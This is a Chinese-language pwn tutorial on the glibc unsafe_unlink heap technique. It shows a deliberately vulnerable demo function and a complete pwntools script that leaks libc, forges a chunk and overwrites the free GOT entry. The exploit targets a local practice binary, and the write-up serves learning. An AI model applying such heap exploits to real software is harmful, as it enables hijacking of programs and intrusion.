

# unsafe_unlink
## Author: fanda
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>unsafe_unlink常常作为pwn入门的第一课，完成攻击时可以在任意地址进行一次改写，经常以改写got表实现劫持流程；[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/)，[how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/unsafe_unlink.c)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在这里粘贴上我认为比较好的三篇资料（首先理解glibc的内存管理）：[堆溢出之unlink的利用](http://yunnigu.dropsec.xyz/2017/04/05/%E5%A0%86%E6%BA%A2%E5%87%BA%E4%B9%8Bunlink%E7%9A%84%E5%88%A9%E7%94%A8/)，[堆溢出的unlink利用](http://papap.info/2016/08/01/%E5%A0%86%E6%BA%A2%E5%87%BA%E7%9A%84unlink%E5%88%A9%E7%94%A8/)，[unlink漏洞的原理和利用](http://wonderkun.cc/index.html/?p=651)。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>demo程序是一个非常简单的漏洞礼包，在这里用unsafe_unlink实现一次改写got表：</font></br>

```C
ssize_t set()
{
  int index; // [esp+Ch] [ebp-Ch]

  index = -1;
  write(1, "Set chunk index:", 0x10u);
  __isoc99_scanf("%d", &index);
  if ( index < 0 )
    return write(1, "Set chunk data error!\n", 0x16u);
  write(1, "Set chunk data:", 0xFu);
  return read(0, buf[index], 0x400u);
}
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>填写堆块内容的时候默认过大，可以溢出至下一个堆块，因此在堆块中伪造堆块后，free下一个堆块即可利用unlink改写任意地址：</font></br>

```python
from pwn import *

p=process('./unlink')
elf=ELF('./unlink')

context.log_level='debug'
#gdb.attach(p)

n=2
chunk_addr=0x8049D60+4*n

def rv(s):
  p.recvuntil(s)

def sd(s):
  p.sendline(s)

def add(size):
  rv('Exit\n')
  sd('1')
  rv('add:')
  sd(str(size))

def setc(index,content):
  rv('Exit\n')
  sd('2')
  rv('index:')
  sd(str(index))
  rv('data:')
  p.send(content)

def dele(index):
  rv('Exit\n')
  sd('3')
  rv('index:')
  sd(str(index))

def show(index):
  rv('Exit\n')
  sd('4')
  rv('index:')
  sd(str(index))

add(0x100)
add(0x100)

dele(0)
show(0)

libc_base=u32(p.recvline()[0:4])-0x1b27b0

log.info(hex(libc_base))

dele(1)

#clear------------------------------------------- 
#start with index 2

add(0x100)
add(0x100)
add(0x100)

payload=p32(0)+p32(0)
payload+=p32(chunk_addr-12)+p32(chunk_addr-8)
payload+=(0x100-len(payload))*'a'
payload+=p32(0x100)+p32(0x108)

setc(2,payload)

dele(3)

setc(2,'a'*12+p32(elf.got['free']))
setc(2,'aaaa')

dele(3)

p.interactive()

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>运行完之后查看core文件可以看到got表改写成功：</font></br>

